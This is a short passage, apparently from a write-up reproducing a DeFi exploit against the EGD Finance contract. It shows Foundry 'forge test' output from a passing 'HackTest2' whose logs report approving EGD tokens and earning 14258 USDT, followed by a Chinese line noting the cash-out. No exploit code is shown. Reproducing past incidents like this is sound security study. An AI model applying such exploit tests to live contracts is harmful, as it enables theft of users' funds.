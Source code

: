 输出:

```
~/Desktop/EGDFinanceDemo main !2 9 ❯ forge test --match-contract HackTest2 -vv
[⠑] Compiling...
[⠆] Compiling 1 files with 0.8.17
[⠔] Solc 0.8.17 finished in 2.58s
Compiler run successful

Running 1 test for test/Hack2.t.sol:HackTest2
[PASS] testHack() (gas: 1074481)
Logs:
  i will apporve all edg coin to another contract: 5630136207606302655330000
  earned usdt (ether): 14258

Test result: ok. 1 passed; 0 failed; finished in 666.79ms
```



套现 14258 $ 


